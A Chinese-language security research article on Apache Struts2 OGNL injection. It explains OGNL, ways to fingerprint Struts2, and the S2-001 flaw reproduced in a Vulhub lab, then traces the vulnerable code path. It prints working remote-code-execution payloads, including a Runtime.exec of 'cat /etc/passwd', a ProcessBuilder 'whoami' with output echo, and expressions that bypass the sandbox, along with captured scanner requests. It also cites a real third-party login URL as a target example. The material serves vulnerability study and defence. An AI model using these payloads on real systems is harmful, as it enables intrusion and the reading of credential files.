# Struts2框架安全漏洞分析与利用研究-先知社区

> **来源**: https://xz.aliyun.com/news/18150  
> **文章ID**: 18150

---

### 概述

Struts2 是一个基于 MVC（Model-View-Controller）设计模式的 Web 应用框架，本质上可以看作是对 Servlet 的高级封装。在 MVC 架构中，Struts2 作为控制器（Controller）负责接收用户请求，并协调模型（Model）与视图（View）之间的数据交互。

Struts2 是 Struts 的下一代产品，它融合了 Struts 1 和 WebWork 的技术优势，重构并推出了全新的框架架构。与 Struts 1 相比，Struts2 的结构发生了根本性的变化，核心机制也完全不同。Struts2 以 WebWork 为核心，引入了“拦截器（Interceptor）”机制来处理用户请求，从而实现了业务逻辑控制器与 Servlet API 的彻底解耦。正因如此，Struts2 常被视为 WebWork 的演进版本，而不是 Struts 1 的简单升级。

虽然 Struts2 与 Struts1 差异显著，但与 WebWork 相比，其变化较小，更多的是在 WebWork 的基础上进行了整合、规范化和社区化的增强。

> 参考：关于 Servlet 的详细介绍可参见 [这篇文章](https://blog.csdn.net/m1154619573/article/details/147457409)。

## 漏洞分析

### OGNL

#### 简介

**OGNL（Object-Graph Navigation Language）** 是一种功能强大的表达式语言，广泛用于 Java Web 框架中，尤其是在 Struts2 中。OGNL 允许通过简洁统一的语法访问对象的属性、调用方法、创建集合、构造 Map 等。正因为其强大灵活的特性，Struts2 默认采用 OGNL 作为其表达式语言。

举个例子，若当前上下文中的根对象为 `user1`，那么表达式 `person.address[0].province` 就可以访问到 `user1`的 `person` 属性中第一个 `address` 的 `province` 字段。

#### OGNL 的作用与优势

OGNL 在 Struts2 中承担了表达式解析的重要角色，开发者可以用它完成很多“常规工作”，包括但不限于：

* **属性访问与方法调用**

* `name.length()`：访问属性
* `#user.hashCode()`：调用方法

* **数组与集合访问**

* `"name".toCharArray()[0]`：访问数组元素
* `'admin' in {'user', 'admin', 'guest'}`：判断元素是否在集合中

* **静态方法与变量**

* `@java.lang.Math@floor(10.9)`：调用静态方法
* `@com.demo.Constants@DEFAULT_TIMEOUT`：访问静态字段

* **表达式串联与赋值**

* `price=100, discount=0.8, price*discount`：支持多个表达式组合

* **构造对象与集合**

* `new java.util.ArrayList()`：创建新对象
* `#{'key1':'value1', 'key2':'value2'}`：构造 Map

#### OGNL 上下文

OGNL 运行时依赖一个上下文对象 `OgnlContext`，它本质上是一个 `Map`，用于存放所有可访问的数据。上下文中包含以下核心元素：

* **\_root**：上下文的根对象，是默认操作的目标对象
* **\_values**：以 Map 的形式保存传入上下文的参数（如 JavaBean、变量等）
* **ClassResolver**：处理类加载的策略
* **TypeConverter**：用于处理类型转换，如将字符串转为对象
* **MemberAccess**：控制访问对象成员（属性、方法）的权限策略

可以通过 `setRoot(object)` 方法设置根对象，这样访问属性时无需使用 `#` 前缀；访问非根对象时需要加 `#`，如 `#user.name`。

#### 特殊语法示例

|  |  |
| --- | --- |
| 用途 | 示例 |
| 常量表示 | `'hello'`, `123`, `1000000H`, `10.01B` |
| 调用静态方法 | `@java.lang.Math@abs(-5)` |
| 构造 Map | `#{'k1':'v1', 'k2':'v2'}` |
| Lambda 表达式 | `{e -> e.length()}` （OGNL 3.x中支持） |
| 条件过滤 | `users.{?#this.age > 18}`：过滤 age > 18 的用户 |

#### OGNL 与 Struts2 漏洞的关系

Struts2 的很多漏洞都是由于 **OGNL 表达式解析过程中的未加限制或未正确过滤** 所导致的。例如攻击者可以通过精心构造的恶意表达式，执行任意方法调用、类加载、甚至构造系统命令执行，导致远程命令执行（RCE）等严重安全问题。

因此，OGNL 的强大同时也带来了安全隐患。正是这种高权限、强能力的表达式语言在开放给外部输入的情况下，容易被攻击者利用，成为 Struts2 多起安全事件的根源。

### Struts2

#### 简介

Struts2 是 Apache 旗下的开源 Web 框架，广泛应用于阿里巴巴、京东等大型互联网企业及政府、企业门户网站。它基于 MVC 设计模式，作为控制器负责模型与视图的数据交互。Struts2 是 Struts1 与 WebWork 合并后的全新框架，体系结构与 Struts1 有较大差异，核心以 WebWork 为基础，采用拦截器机制处理用户请求。

这种设计使得业务逻辑与 Servlet API 完全分离，提升了开发灵活性。相比 Struts1 变化巨大，但相较于 WebWork，变化较小。

Struts2 默认采用 OGNL 作为表达式语言，支持对标签属性（如 id）进行二次解析，这也成为远程代码执行等安全风险的根源。它常与 Spring、Hibernate 等框架配合使用，构成主流 Java EE 企业开发技术栈（SSH）。

Struts2 的 MVC 结构：

* **Model**：负责数据维护和业务逻辑（通常是 Action 类）
* **View**：负责页面展示（Result）
* **Controller**：通过代码控制请求流程

Struts2 中的 OGNL 表达式一般以 `%{}` 和 `${}` 开头：

* `%{}`：访问值栈中的 Action 对象，例如 `%{getText('key')}`
* `${}`：通常用于国际化资源文件中的表达式引用

更多版本及漏洞详情可参考 Apache Struts 官方仓库：

<http://archive.apache.org/dist/struts/binaries/>

#### Struts2识别

常用识别方式包括：

1. **页面回显错误信息**：访问带参数的 URL，如 `?actionErrors=1111`，若页面返回异常信息或回显参数值，说明可能是 Struts2。


2. **URL 后缀判断**：常见 `.action`、`.do` 后缀，虽然不一定准确。

```
https://accionistas.rccelta.es/accionistas-web/acceso/login.action
```

3. **检测特殊文件**：如 `/struts/webconsole.html` 文件存在（需 `devMode=true`）。



4. **request\_only\_locale 参数**：修改后页面内容变化表明存在国际化支持。
5. **CheckboxInterceptor 参数回显**：带参数如 `?checkbox_search=xxx`，返回特定内容可判断。

注意，目前没有 100% 确定 Struts2 的单一识别方法。

#### 探测方法

确认目标使用 Struts2 后，依据漏洞触发点按新到旧顺序逐步尝试检测。检测时建议使用最小有效 Payload。

* 利用 `${1111}` 或 `%{1111}` 测试返回内容是否执行了 OGNL 计算（如 `11*11=121`）。
* 对无明显回显的漏洞，可以尝试时间延迟执行，例如 `java.lang.Thread.sleep(5000)`。
* 利用文件生成验证，如写入文件路径检测。
* 带外请求检测：尝试外部 DNSLog，`new URL("http://dnslog/").openConnection()`
* 通过代码执行结果回显，`@org.apache.commons.io.IOUtils@toString(XXXX.getInputStream())`

#### 漏洞利用

Struts2 利用通常围绕代码执行、命令执行、WebShell 上传、反弹 Shell 或窃取凭据。核心是通过 OGNL 绕过默认安全限制，实现静态或动态方法调用写入文件或执行命令，并借助输出实现回显或带外交互。

Payload

```
a=${#_memberAccess["allowStaticMethodAccess"]=true,
  #a=@java.lang.Runtime@getRuntime().exec('cat /etc/passwd').getInputStream(),
  #b=new java.io.InputStreamReader(#a),
  #c=new java.io.BufferedReader(#b),
  #d=new char[50000],
  #c.read(#d),
  #out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),
  #out.println('result=' + new java.lang.String(#d)),
  #out.close()}
```

#### 漏洞修复

Struts2 框架有多项防护机制，绕过这些机制是利用的关键：

* **allowStaticMethodAccess**：是否允许调用静态方法，如 `Runtime.exec` 需要该项为 `true`。
* **allowStaticFieldAccess**：是否允许访问静态属性。
* **xwork.MethodAccessor.denyMethodExecution**：防止 OGNL 调用方法。
* **excludedPackageNames / excludedClasses / excludedPackageNamePatterns**：黑名单限制调用指定包或类。

常见绕过方式包括：

* 通过 OGNL 动态修改配置：

```
#_memberAccess['allowStaticMethodAccess'] = true
#context['xwork.MethodAccessor.denyMethodExecution'] = false
#ognlUtil.getExcludedPackageNames().clear()
#ognlUtil.getExcludeClasses().clear()
```

* 通过反射设置私有属性访问权限：

```
#f = #_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),
#f.setAccessible(true),
#f.set(#_memberAccess, true)
```

不同版本 Struts2 防护机制差异较大，更新补丁时应重点关注这些配置。

## 漏洞示例

本次 Struts2 漏洞的示例与复现均基于[Vulhub 靶场平台](https://github.com/vulhub/vulhub/blob/master/struts2)提供的环境完成。本文以**S2-001** 漏洞为代表，进行了深入的分析与复现演示，旨在帮助读者理解该漏洞的原理及利用方式。其他版本的 Struts2 漏洞将在后续文章中逐一展开介绍。

### S2-001

#### 概述

##### 影响版本

Struts 2.0.0 - 2.0.8

##### 漏洞编号

CVE-2007-4556

##### 漏洞原理

该漏洞因用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。如注册或登录页面，提交失败后一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行。

#### 漏洞复现

##### 启动命令

```
docker compose build
docker compose up -d
docker ps	# 查看靶机映射的端口
ifconfig  # 查看IP地址
```

##### 漏洞探测

在输入框或可控参数位置输入 `\%{1111*11}`，如果应用返回了计算结果 `12221`，说明后端对用户输入进行了 OGNL 表达式解析，存在 Struts2 表达式注入风险。



##### 漏洞利用

获取tomcat执行路径

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
// @java.lang.System@getProperty("user.dir")获取当前程序运行的目录
```



获取Web路径

```
%{
  // 1. 获取 HttpServletRequest 对象
  #req = @org.apache.struts2.ServletActionContext@getRequest(),
  // 2. 获取 HttpServletResponse 对象的输出流 Writer
  #response = #context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),
  // 3. 输出网站根目录的真实物理路径（例如 /usr/local/tomcat/webapps/ROOT/）
  #response.println(#req.getRealPath('/')),
  // 4. 刷新输出内容
  #response.flush(),
  // 5. 关闭输出流
  #response.close()
}
```



执行任意命令

```
%{
  // 1. 执行命令：whoami
  #a = (new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"}))
        .redirectErrorStream(true)  // 合并标准错误输出
        .start(),                   // 启动进程
  // 2. 获取命令输出流
  #b = #a.getInputStream(),
  // 3. 将字节流转换为字符流
  #c = new java.io.InputStreamReader(#b),
  // 4. 使用缓冲读取器读取字符流
  #d = new java.io.BufferedReader(#c),
  // 5. 创建字符数组用于存储输出内容
  #e = new char[50000],
  // 6. 读取输出结果到字符数组中
  #d.read(#e),
  // 7. 获取 HTTP 响应对象
  #f = #context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
  // 8. 输出命令执行结果到页面
  #f.getWriter().println(new java.lang.String(#e)),
  // 9. 刷新并关闭输出流
  #f.getWriter().flush(),
  #f.getWriter().close()
}
```



##### 漏洞修复

在 `xwork 2.0.4` 中添加了一个maxLoopCount属性，限制了递归解析的最大数目。

## 流量分析

本次实验使用的检测工具为 **Struts2 全版本漏洞检测工具**，项目地址如下：

<https://github.com/abc123info/Struts2VulsScanTools>

在漏洞检测过程中，为了配合分析网络请求与响应的数据包，使用了抓包技术。具体抓包方法参考以下链接：

<https://blog.csdn.net/m1154619573/article/details/148338537>

##### 探测debug参数

```
POST /login.action HTTP/1.1
...
Content-Length: 9

debug=xml
```

此请求用于探测 `debug` 参数是否被后台应用解析，用于识别是否为可能存在 Struts2 漏洞的接口。

##### 探测 debug 模式

```
POST /login.action HTTP/1.1
...
Content-Length: 13

debug=console
```

`console` 模式开启后，Struts2 的调试信息可能在响应中返回，攻击者由此可以进一步判断框架版本与调试状态，为漏洞利用做准备。

##### OGNL 表达式注入测试

###### post方式

```
POST /login.action HTTP/1.1
...
Content-Length: 41

debug=command&expression=%7b23243*3434%7d
```

这是核心漏洞利用请求。`expression` 参数中携带的 `{23243*3434}` 是一个 OGNL 表达式，会被 Struts2 的 `debug=command` 模式解析并执行，返回值为乘法结果（通常会反映在页面或响应中）。

###### get方式

```
GET /login.action?debug=command&expression=%28%34%32%32%30%36%2a%32%30%35%38%39%29 HTTP/1.1
```

该请求与上一个作用相同，只是通过 GET 方法提交，依旧可触发 Struts2 解析器对 OGNL 表达式的执行。

##### header 插入

```
GET /%25%7B%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29...
/login.action HTTP/1.1
...
```

此请求利用了完整的 OGNL 表达式链，对 `DEFAULT_MEMBER_ACCESS` 进行赋值，绕过了安全限制，清空了 `OgnlUtil` 的受限类与包，然后调用 `getResponse()` 方法，最终向 HTTP 响应头中添加了一个名为 `coookiee` 的自定义字段。

##### 数学运算探测

```
GET /login%24%7B(181913098%2B1)%7D.action HTTP/1.1
...
```

这是典型的探测性 payload，用于判断服务器是否存在 OGNL 表达式注入漏洞。如果目标服务器未对表达式进行适当过滤或禁用，Struts2 会解析该表达式，并将其结果 `181913099` 作为路径处理，从而引发异常或返回不同响应

##### multipart/form-data 类型注入

```
POST /login.action HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAnmUgTEhFhOZpr9z
...

------WebKitFormBoundaryAnmUgTEhFhOZpr9z
Content-Disposition: form-data; name="pocfile"; filename="s.%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)...}.b"
Content-Type: application/octet-stream

tdwefewwe
------WebKitFormBoundaryAnmUgTEhFhOZpr9z--
```

该请求构造了一个 `multipart/form-data` 类型的 POST 请求，并将 **OGNL 表达式注入到上传文件名中**。其中的表达式经过部分 unicode 混淆。

#### 总结

本次流量分析重点聚焦于 Apache Struts2 框架中存在的 OGNL 表达式注入漏洞。通过对不同请求类型（包括普通 POST 请求、GET 请求、带有 debug 参数的探测请求以及 multipart/form-data 上传请求）的抓包和解码，深入揭示了攻击者如何利用精心构造的 OGNL 表达式实现远程代码执行。分析过程展示了相关工具通过输出特定字符串、执行服务器路径查询、绕过安全限制等手段确认漏洞存在的典型利用流程。

## 深入分析

### 搭建环境

由于 Struts 2.0.8 版本较为陈旧，IntelliJ IDEA 对其支持有限，导致在环境配置过程中会遇到较多报错和兼容性问题。希望在搭建环境这一步，大家能够保持耐心，严格按照我的步骤操作，并积极查阅相关资料来解决遇到的问题。

我的项目地址：<https://gitee.com/xiao-tang-san/struts2>

#### 创建项目

按照下面的配置创建一个项目。



#### 导入依赖

这一步一定要按我的操作做，网上都找不到相关的教程。

在pom.xml中导入依赖，正常情况下这一步会报错，因为Maven 仓库里面可能没有这个2.0.8版本，这个需要我们去下载。

注意这个导入的依赖要根据项目中的需求进行导入，因为下面我们已经安装了2.0.8版本的所有jar包，需要根据现实情况修改相应的配置。

```
<dependency>
    <groupId>org.apache.struts</groupId>

    <artifactId>struts2-core</artifactId>

    <version>2.0.8</version>

</dependency>

    <dependency>
      <groupId>opensymphony</groupId>

      <artifactId>xwork</artifactId>

      <version>2.0.3</version>

 </dependency>

```

下载地址：<https://archive.apache.org/dist/struts/library/>

从这个仓库里面找到2.0.8版本下载，然后使用下面的批量添加脚本。

批量添加脚本

```
#!/bin/bash

# 这个地址是下载下来的目录
LIB_DIR="/Downloads/struts-2.0.8/lib"

for jarfile in "$LIB_DIR"/*.jar
do
  filename=$(basename "$jarfile")
  
  # 简单从文件名解析artifactId（去掉版本号和.jar）
  artifactId=$(echo "$filename" | sed -E 's/(-[0-9]+\.[0-9]+\.[0-9]+)?\.jar$//')
  
  echo "Installing $filename as artifactId=$artifactId ..."
  
  mvn install:install-file \
    -DgroupId=org.apache.struts \
    -DartifactId=$artifactId \
    -Dversion=2.0.8 \
    -Dpackaging=jar \
    -Dfile="$jarfile"
done
```

此时在项目里面的导入就不会报错了。

#### 配置过滤器

再修改`web.xml`，在这里主要是配置`struts2`的过滤器。

```
<web-app>
  <display-name>S2-001 Example</display-name>

  <filter>
    <filter-name>struts2</filter-name>

    <filter-class>org.apache.struts2.dispatcher.FilterDispatcher</filter-class>

  </filter>

  <filter-mapping>
    <filter-name>struts2</filter-name>

    <url-pattern>/*</url-pattern>

  </filter-mapping>

  <welcome-file-list>
    <welcome-file>index.jsp</welcome-file>

  </welcome-file-list>

</web-app>

```

#### 配置文件

main目录下添加java目录。



创建类



内容

```
package com.test.s2001.action;

import com.opensymphony.xwork2.ActionSupport;

public class LoginAction extends ActionSupport{
    private String username = null;
    private String password = null;

    public String getUsername() {
        return this.username;
    }

    public String getPassword() {
        return this.password;
    }

    public void setUsername(String username) {
        this.username = username;
    }

    public void setPassword(String password) {
        this.password = password;
    }

    public String execute() throws Exception {
        if ((this.username.isEmpty()) || (this.password.isEmpty())) {
            return "error";
        }
        if ((this.username.equalsIgnoreCase("admin"))
                && (this.password.equals("admin"))) {
            return "success";
        }
        return "error";
    }
}
```

然后，在 `webapp` 目录下创建&修改两个文件 —— `index.jsp`&`welcome.jsp`，内容如下。

**index.jsp**

```
<%@ page language="java" contentType="text/html; charset=UTF-8"
         pageEncoding="UTF-8"%>
<%@ taglib prefix="s" uri="/struts-tags" %>

<html>
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <title>S2-001</title>

</head>

<body>
<h2>S2-001 Demo</h2>

<s:form action="login">
    <s:textfield name="username" label="username" />
    <s:textfield name="password" label="password" />
    <s:submit></s:submit>

</s:form>

</body>

</html>

```

**welcome.jsp**

```
<%@ page language="java" contentType="text/html; charset=UTF-8"
         pageEncoding="UTF-8"%>
<%@ taglib prefix="s" uri="/struts-tags" %>

<html>
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <title>S2-001</title>

</head>

<body>
<p>Hello <s:property value="username"></s:property></p>

</body>

</html>

```

然后在 `main` 文件夹下创建一个 `resources` 文件夹，内部添加一个 `struts.xml`，内容为：

```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE struts PUBLIC
        "-//Apache Software Foundation//DTD Struts Configuration 2.0//EN"
        "http://struts.apache.org/dtds/struts-2.0.dtd">

<struts>
    <package name="S2-001" extends="struts-default">
        <action name="login" class="com.test.s2001.action.LoginAction">
            <result name="success">welcome.jsp</result>

            <result name="error">index.jsp</result>

        </action>

    </package>

</struts>

```

#### 添加tomcat

按照下图的方法配置就行了。

要注意部署和tomcat的版本，这一步根据报错信息可以自行解决。



#### 完整效果

项目目录



运行结果



### 流程分析

上面我们已经搭建好了环境，这一部分我们来调试代码。

#### 完整调用链

```
HttpServlet → Dispatcher.serviceAction()
                   ↓
      createContextMap() → extraContext 包含用户参数
                   ↓
      ActionProxyFactory.createActionProxy()
                   ↓
      DefaultActionInvocation.invoke()
                   ↓
      ParametersInterceptor.intercept()
                   ↓
      ValueStack.setValue(参数名为表达式) ← 触发 OGNL 求值 → RCE
```

#### Filter过滤器

先回到我们上面配置的web.xml中的过滤器



在 `web.xml` 中配置的 `org.apache.struts2.dispatcher.FilterDispatcher` 过滤器，是 Struts2 早期版本的核心请求入口。每当有请求到达时，Tomcat 会调用过滤器的 `doFilter` 方法来处理请求。这个方法中，过滤器会把大部分不重要的细节跳过，直接调用内部的 `dispatcher.serviceAction` 方法来完成请求的处理。

`dispatcher.serviceAction` 这个方法是整个 Struts2 请求处理的核心，它会根据请求的 URL 和参数，加载对应的配置（比如通过 `DefaultConfiguration#addPackageConfig` 注入的配置），然后找到对应的 Action 进行执行，最后把结果渲染到页面。

所以，简单来说：

* `FilterDispatcher.doFilter` 是入口，会被服务器自动调用。
* 里面直接调用 `dispatcher.serviceAction` 处理请求。
* `serviceAction` 通过加载和管理配置（如 `DefaultConfiguration.RuntimeConfigurationImpl#namespaceActionConfigs`）找到正确的业务逻辑执行。
* 这是 Struts2 的请求处理核心流程。

#### doFilter方法

```
org.apache.struts2.dispatcher.FilterDispatcher#doFilter
```



在 `doFilter()` 方法中，它首先调用 `prepareDispatcherAndWrapRequest()` 初始化 `Dispatcher` 并包装 `HttpServletRequest`（处理多部分请求等），然后通过 `actionMapper.getMapping()` 获取与当前请求匹配的 `ActionMapping`。若匹配成功，则调用 `dispatcher.serviceAction()` 方法正式交由 Struts2 执行对应的 `Action`，这其中会触发 `ActionProxy` 的创建、`DefaultActionInvocation` 初始化、拦截器链执行（例如 `ParametersInterceptor`），最后调用目标 `Action` 方法并返回结果视图。

与漏洞相关的是`dispatcher.serviceAction()`，我们跟入`this.dispatcher.serviceAction`

#### serviceAction

```
org.apache.struts2.dispatcher.Dispatcher#serviceAction
```

通过 `createContextMap()` 方法将 `HttpServletRequest` 中的请求参数封装为 `extraContext`，这些参数中可能包含用户精心构造的恶意 OGNL 表达式。随后，调用 `createActionProxy()` 创建 `ActionProxy` 实例时会将 `extraContext` 传入，该过程会进一步调用 `DefaultActionInvocation` 并加载拦截器链。接下来执行 `proxy.execute()` 时，会触发拦截器链中如 `ParametersInterceptor` 的执行，该拦截器会从 `extraContext` 中取出参数并通过 OGNL 表达式求值机制将其设置到目标对象的属性中。

下图是我们需要关注的重点代码。



```
ActionProxy proxy = ((ActionProxyFactory)config.getContainer().getInstance(ActionProxyFactory.class)).createActionProxy(namespace, name, extraContext, true, false);
```

通过 ActionProxyFactory 的 `createActionProxy()` 类初始化一个 ActionProxy，在这过程中也会创建 `DefaultActionInvocation` 的实例

#### execute

之后执行`org.apache.struts2.impl.StrutsActionProxy#execute`，里面会执行`com.opensymphony.xwork2.DefaultActionInvocation#invoke`

```
org.apache.struts2.impl.StrutsActionProxy#execute
```



#### invoke

```
com.opensymphony.xwork2.DefaultActionInvocation#invoke
```

该方法首先检查动作是否已执行，防止重复调用；然后依次执行拦截器链中的拦截器，若无剩余拦截器则调用动作的核心逻辑。关键在于拦截器链中的 `ParametersInterceptor`，它会从请求参数中解析并绑定带有 OGNL 表达式的参数到动作对象上，若参数中含恶意 OGNL 表达式就会被执行，导致远程代码执行漏洞。



`ParametersInterceptor`会在本次请求的上下文中取出访问参数，将参数键值对通过 OgnlValueStack 的 setValue 通过调用 `OgnlUtil.setValue()` 方法。

#### ParametersInterceptor

```
com.opensymphony.xwork2.interceptor.ParametersInterceptor
```

它在 `doIntercept` 方法中获取请求参数，通过 `setParameters` 方法利用 OGNL 表达式将参数设置到 Action 对象上。该过程直接处理来自客户端的参数，且对参数名的过滤较为宽松，容易被构造恶意 OGNL 表达式利用。



#### setValue

```
com.opensymphony.xwork2.util.OgnlValueStack#setValue(java.lang.String, java.lang.Object, boolean)
```

它先获取 OGNL 上下文，设置当前操作的属性名和是否抛异常的标志，然后调用 `OgnlUtil.setValue` 执行赋值操作。如果出现异常，根据 `throwExceptionOnFailure` 决定是抛出异常还是记录日志，最后清理上下文状态。



### 漏洞流程

在所有拦截器执行完成后，`DefaultActionInvocation` 会调用 `invokeActionOnly()` 方法。该方法通过反射机制，执行了 Action 实现类中的 `execute` 方法，开始处理用户的业务逻辑。



随后，流程回到 `DefaultActionInvocation`，调用了 `executeResult()` 方法，执行配置好的 Result 实现类中的 `execute()` 方法，开始处理此次请求的响应结果。比如，我们配置的返回结果是一个 JSP 文件。



JSP 文件请求最终交由 `JspServlet` 处理，在解析 JSP 标签时，标签的开始和结束位置分别调用了对应标签实现类（如 `org.apache.struts2.views.jsp.ComponentTagSupport`）中的 `doStartTag()`（用于初始化）和 `doEndTag()`（标签解析结束后调用的收尾方法）。

流程进入了漏洞触发的关键位置，即调用了组件 `org.apache.struts2.components.UIBean` 的 `end()` 方法。



这里跟入`evaluateParams`



在 `end()` 方法中，会调用 `evaluateParams()` 来评估标签参数。由于 `altSyntax` 默认为开启状态，接下来会调用 `findValue()` 方法去寻找参数的实际值。



跟入`TextParseUtil.translateVariables`



进一步跟进 `findValue()`，它会调用 `TextParseUtil.translateVariables()`，该方法会解析字符串中 `%{}` 包裹的内容，提取并传递给 `findValue()` 进行求值。



实际的解析过程是通过 OGNL 表达式引擎实现的。此处漏洞的本质是发生了二次解析：对参数的 key 值直接拼接形成表达式 `expression`，然后通过 `while` 循环不断调用 OGNL 解析表达式。



为什么最终会造成漏洞实际上是触发了二次解析，我们接着往下看，对key的值直接拼接去赋值给`expression`



然后回到上面，由于此处使用的是 **while** 循环来解析 **Ognl** ，所以获得的 **%{1+1}** 又会被再次执行，最终也就造成了任意代码执行


